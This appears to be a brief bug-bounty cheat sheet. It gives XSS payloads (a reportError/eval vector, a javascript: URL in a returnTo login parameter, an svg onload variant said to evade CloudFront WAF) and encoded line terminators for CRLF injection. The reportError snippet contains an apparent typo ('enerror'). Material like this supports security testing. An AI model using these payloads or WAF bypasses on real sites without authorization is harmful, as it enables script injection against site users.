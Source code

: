 # General tips
changing Exif metadata of an image can lead to XSS, RCE ...  [learn more](https://gokulvinesh.medium.com/rce-xss-via-image-exif-metadata-dddf33dadb41).
# XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert.<br>
3-Amazon CloudFront WAF sometimes can be easily bypassed with `<svg onload=(alert)(1)` instead of `<svg onload=alert(1)`
# Rate limit bypass
![ ](https://raw.githubusercontent.com/rbih-boulanouar/bugbounty/main/Rate%20limit%20bypass.jpeg)
# Line terminators
For XSS / CRLF injection.
🔹LF: %0A (\u000A)
🔹VT: %0B (\u000B)
🔹FF: %0C (\u000C)
🔹CR: %0D (\u000D)
🔹CR+LF: %0D%0A (\u000D\u000A)
🔹NEL: %C2%85 (\u0085)
🔹LS: %E2%80%A8 (\u2028)
🔹PS: %E2%80%A9 (\u2029)
